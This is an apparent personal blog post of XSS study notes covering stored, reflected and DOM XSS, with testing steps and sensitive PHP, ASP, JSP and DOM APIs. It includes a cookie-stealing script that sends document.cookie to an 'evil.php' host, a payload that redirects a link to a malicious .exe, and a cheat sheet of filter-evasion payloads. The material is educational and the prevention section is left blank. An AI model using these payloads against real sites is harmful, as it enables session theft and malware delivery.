 ```yaml
---
title: Cross-site Scripting
date: 2018-09-12 01:41:46
tags: XSS
categories: Injection
---
```


## Common occurrences of vulnerabilities
The data is included in dynamic content(web request requently) that enters a Web application and then is sent to a web user.
**Typical examples**
* User/Profiles page
* Shopping cart
* File Manager
* Application settings/preferences
* Forum/Message board
* Blog
* Log

## Type
* Stored XSS Attacks
These are those where the injected script is permanently stored on the target servers, such as in a database, in a message, in a message forum, visitor log, comment field, etc.

* Reflected XSS Attacks
These are those where the injected script is reflected directly off the web server when the request is sent.
<!--more-->

* DOM XSS Attacks
DOM Based XSS is a form of XSS where the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser. For example, the source could be the URL of the page(e.g., document.location.href or the value of an element of the HTML), and the sink is sensitive method call that causes the execution of the malicious data(e.g., document.write).

## Use of Vulnerabilities
*Cookie Grabber*
```
<script>
Var adr = ‘../evil.php?cakemonster=’ + escape(document.cookie);
var img = document.createElement(“img”);
var d1 = document.getElementById(“d1”);
img.src = adr;
d1.appendChild(img);
</script>
```

*Download of malicious software*
```
http://example.com/index.php?id=<script>window.onload = function() {
var AllLinks=document.getELementByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe";
}</script>
```

## Testing of Cross site scripting
**Reflected XSS**
*Black Box testing*
* `<script>alert(123)</script>`
* `“><script>alert(document.cookie)</script>`
1. Detect input vectors.
2. Use one of the examples showed above to be input data in every input vector, then examine the resulting web page HTML and search for the test input.

**Stored XSS**
*Black Box testing*
It's similar to the process. We can exploit Stored XSS by some advanced 
exploitation framework(Beff, XSS Proxy).

*White Box testing*
The predefined variables/functions to store input from HTTP GET and POST 
requests need to be focus.
* PHP
>$_GET -- HTTP GET variables
>$_POST -- HTTP POST variables
>$_REQUEST -- HTTP POST, GET and COOKIE variables
>$_FILES -- HTTP File Upload variables

* ASP
>Request.QueryString -- HTTP GET
>Request.Form -- HTTP POST
>Server.CreateObject -- Used to upload files

* JSP
>doGet, doPost servlets -- HTTP GET and POST
>request.getParameter -- HTTP GET/POST variables

**DOM XSS**
*White Box testing*
The API need to be concerned are the following
>document.location
>document.URL
>document.referrer
>window.location
>document.write
>document.writeln
>document.body.innerHTML
>eval

and so on.

## XSS Filter Evasion Cheat Sheet
Image tag
`<IMG SRC="javascript:alert('XSS');">`
No quotes and no semicolon
`<IMG SRC=javascript:alert('XSS')>`
Case insensitive
`<IMG SRC=JaVaScRiPt:alert('XSS')>`
HTML entities
`<IMG SRC=javascript:alert(&quot;XSS&quot;)>`
Grave accent obfuscation
<code><IMG SRC=\`javascript:alert("RSnake says, 'XSS'")\`></code>
Malformed A tags
`<a onmouseover="alert(document.cookie)">xxs link</a>`
Malformed IMG tags
`<IMG src="""><SCRIPT>alert("XSS")</SCRIPT>">`
fromCharCode
`<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>`

To be continue
## XSS Prevention Cheat Sheet

